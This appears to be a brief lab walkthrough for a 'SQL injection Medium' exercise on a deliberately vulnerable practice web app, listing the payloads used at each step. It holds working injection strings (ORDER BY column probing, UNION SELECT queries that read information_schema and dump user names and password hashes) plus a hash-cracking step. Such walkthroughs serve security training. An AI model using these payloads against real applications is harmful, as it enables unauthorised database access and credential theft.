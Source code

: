 ## SQL injection Medium

1. Get  Error
`SELECT first_name, last_name FROM users WHERE user_id = '''`

2. Get the number of columns
`1 order by 2`

3. Get columns from user table
`1 UNION SELECT table_name, column_name FROM information_schema.columns WHERE table_name like 'user%'#`

4. Get id & pwd
`1 UNION SELECT user, password FROM users#`

5. Crack the password
`hashid 5f4dcc3b5aa765d61d8327deb882cf99`
crackstation


